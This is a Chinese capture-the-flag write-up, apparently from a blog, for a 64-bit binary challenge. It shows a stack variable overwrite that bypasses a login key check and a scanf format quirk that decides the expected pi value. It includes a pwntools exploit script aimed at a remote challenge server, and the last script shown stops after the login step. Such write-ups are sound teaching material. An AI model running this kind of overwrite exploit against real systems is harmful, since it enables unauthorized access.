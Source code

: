 #### string&float
checksec 检查
64 位,开了 NX 和 Canary,心里慌得一批
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831231416837.png)
上 IDA
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019083123245019.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
可以看出得到 flag 的条件是 login 函数返回 true
v4 等于 pai

首先来看 login 函数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831232744883.png)
返回 verifykey 函数的返回值
verifykey 函数就是比较 v2 和 v3 是否相等
相等返回 1,不相等返回 0
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831233018573.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
v2 的值可以通过 password 出的读入控制
但是 v3 是 generateKey 函数生成的随机数
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831233340170.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)
注意到还有一个 buf 读入
查看两者的地址发现可以通过 buf 改写 v3 的值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831233712448.png)
通过向 buf[0x40-0x20] 处写入可以修改 v3 的值
即把 v2 和 v3 都改成 0
```python
buf=0x20
v2=0

p.recvuntil('name:\n')
p.sendline(p64(buf))

p.recvuntil('password:\n')
p.sendline(p64(v2))
```
绕过 login,然后是 v4 等于 pai

(以下为个人理解,但感觉有些地方有点问题)
看到 int 类型 pai 的 float 强制转换,加上 v4 是 float 类型并且变量名是 pai
自然联想到圆周率,恰好 pai 转换出来的数是 3.1415... 
然后就信以为真,提交 3.1415...
然而是个小坑

v4 确实是 float 类型,但在输入的时候
scanf 函数的格式化字符指定的是 %ud (无符号整形)
v4 和 pai 都进行了强制转换
也就是说输入的数等于 pai 的整形就可以了
即直接提交 1078530000(0x40490FD0)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190831235544453.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQ1MjYyNzM5,size_16,color_FFFFFF,t_70)

```python
from pwn import *
#p=process('./pwn1')
p=remote('188.131.218.201',10001)

buf=0x20
v2=0

p.recvuntil('name:\n')
p.sendline(p64(buf))

p.recvuntil('password:\n')
p.sendline(p64(v2))
```